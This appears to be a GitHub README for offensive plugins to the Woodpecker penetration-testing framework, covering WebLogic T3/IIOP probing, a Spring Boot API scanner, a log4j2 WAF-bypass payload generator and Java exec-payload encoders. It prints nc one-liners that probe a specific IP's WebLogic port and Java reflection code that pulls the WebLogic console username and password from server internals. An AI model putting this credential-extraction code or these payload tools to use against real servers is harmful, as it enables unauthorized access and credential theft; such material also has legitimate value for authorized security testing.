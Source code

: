 # woodpecker-plugins usage

将插件复制到 `woodpecker-framwork/plugin` 目录下面，启动 `java -jar woodpecker-framework.1.3.3.jar`

from https://github.com/woodpecker-appstore


## weblogic-info

![image](https://user-images.githubusercontent.com/16593068/145928804-98d80f46-49cf-4282-b6c1-7d2572c9555b.png)

check T3 isOpen:

```
echo 't3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'|nc 10.20.31.189 7001
```

check IIOP isOpen:
```
echo "GIOP\x01\x02\x00\x03\x00\x00\x00\x17\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x0bNameService"| nc 10.20.31.189 7001

```

## weblogic console weak password

![image](https://user-images.githubusercontent.com/16593068/145929061-cd30b52b-bd2d-4b15-9e0e-21c582e6ac5f.png)

https://twitter.com/jas502n/status/1467122190760177664?s=20

`Use T3 protocol Get weblogic console username, password`

![image](https://user-images.githubusercontent.com/16593068/145929721-69d82710-de98-4985-97de-f3a8519966d7.png)
![image](https://user-images.githubusercontent.com/16593068/145929735-4683ac8f-d928-47ef-a606-1b1c559222b1.png)
![image](https://user-images.githubusercontent.com/16593068/145929756-a68dbd70-d021-433a-a5d4-7a129ccb47a4.png)

```java

public static String getPass() {
        try {
            ClassLoader l = Thread.currentThread().getContextClassLoader();
            Class HttpDataTransferHandler = l.loadClass("weblogic.deploy.service.datatransferhandlers.HttpDataTransferHandler");
            Class ManagementService = l.loadClass("weblogic.management.provider.ManagementService");
            Class AuthenticatedSubject = l.loadClass("weblogic.security.acl.internal.AuthenticatedSubject");
            Class PropertyService = l.loadClass("weblogic.management.provider.PropertyService");
            Field f = HttpDataTransferHandler.getDeclaredField("KERNE_ID");
            f.setAccessible(true);
            Method mm = ManagementService.getMethod("getPropertyService", AuthenticatedSubject);
            mm.setAccessible(true);
            Object prop = mm.invoke((Object) null, f.get((Object) null));
            Method m1 = PropertyService.getMethod("getTimestamp1");
            Method m2 = PropertyService.getMethod("getTimestamp2");
            m1.setAccessible(true);
            m2.setAccessible(true);
            String name = (String) m1.invoke(prop);
            String pass = (String) m2.invoke(prop);
            return "name:" + name + ",pass:" + pass + ";";
        } catch (Exception var12) {
            return var12.toString();
        }
    }

```

## springBoot api Scan

![image](https://user-images.githubusercontent.com/16593068/145928893-ed8fd0bd-4833-4d93-af98-25e807414e8d.png)

## log4j2 bypass waf payload generate 

![image](https://user-images.githubusercontent.com/16593068/145928965-37db4f8f-36f4-4a2d-9fc1-f5cf6077792d.png)

# class to BCEL Code

![image](https://user-images.githubusercontent.com/16593068/145929249-30d960b8-79e4-4e82-a488-42bda1edea7c.png)

![image](https://user-images.githubusercontent.com/16593068/145929232-64d8fba1-7471-4680-811e-424573314353.png)

# java Runtime EXEC Encode

![image](https://user-images.githubusercontent.com/16593068/145929372-83d91878-1b02-471f-9795-d8e2e13b98e9.png)

http://jackson-t.ca/runtime-exec-payloads.html

![image](https://user-images.githubusercontent.com/16593068/145929430-e6c284ed-873b-45ca-a6f3-e5844f9007bc.png)

